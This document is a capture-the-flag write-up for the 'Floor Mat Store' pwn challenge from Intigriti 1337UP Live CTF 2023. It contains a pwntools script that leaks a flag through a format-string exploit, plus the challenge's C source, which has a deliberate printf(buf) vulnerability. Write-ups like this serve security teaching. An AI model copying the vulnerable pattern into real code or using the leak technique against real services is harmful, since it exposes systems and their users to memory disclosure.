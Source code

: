 ```yaml
---
name: Floor Mat Store (2023)
event: Intigriti 1337UP Live CTF 2023
category: Pwn
description: Writeup for Floor Mat Store (Pwn) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Floor Mat Store

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/Zu32BHwH-sA/0.jpg)](https://youtu.be/Zu32BHwH-sA "Floor mats: Format string exploit")

## Description

> Welcome to the Floor Mat store! It's kind of like heaven.. for mats

## Solution

Watch video for full solution (format string exploit), but here's a solve script (note the index will vary from local/remote, but you can just send `%p * 100` or something instead).

{% code overflow="wrap" %}
```python
from pwn import *

# Connect to server
io = process('./floormats')

flag = ''

io.sendlineafter(b'Enter your choice:\n', b'6')
io.sendlineafter(b'Please enter your shipping address:\n',
                 b'%18$p %19$p %20$p %21$p')
io.recvuntil(b'Your floor mat will be shipped to:\n\n')

response = io.recv(1000)

# Split response by spaces
for i, p in enumerate(response.split(b' ')):
    try:
        if not b'nil' in p:
            try:
                # Decode, reverse endianess and print
                decoded = unhex(p.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(i) + ": " + str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException as e:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```
{% endcode %}

Running the script leaks the flag!

Flag:`INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_pr1n7f}`

## Bonus: source code

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);

    char *mats[] = {
        "1. Cozy Carpet Mat - $10",
        "2. Wooden Plank Mat - $15",
        "3. Fuzzy Shag Mat - $20",
        "4. Rubberized Mat - $12",
        "5. Luxury Velvet Mat - $25",
        "6. Mysterious Flag Mat - $1337"
    };

    char buf[128];
    char flag[64];
    char *flag_ptr = flag;

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    FILE *file = fopen("flag.txt", "r");
    if (file == NULL) {
        printf("You have a flag.txt, right??\n");
        exit(0);
    }

    puts("Welcome to the Floor Mat store! It's kind of like heaven.. for mats.\n\nPlease choose from our currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n");

    printf("Please select a floor mat:\n\n");
    for (int i = 0; i < 5; i++) {
        printf("%s\n", mats[i]);
    }

    int choice;
    printf("\nEnter your choice:\n");
    scanf("%d", &choice);

    if (choice < 1 || choice > 6) {
        printf("Invalid choice!\n\n");
        exit(1);
    }

    int matIndex = choice - 1;

    while (getchar() != '\n');

    if (matIndex == 5) {
        fgets(flag, sizeof(flag), file);
    }

    printf("\nPlease enter your shipping address:\n");

    fgets(buf, sizeof(buf), stdin);

    printf("\nYour floor mat will be shipped to:\n\n");

    printf(buf);

    return 0;
}
```
{% endcode %}
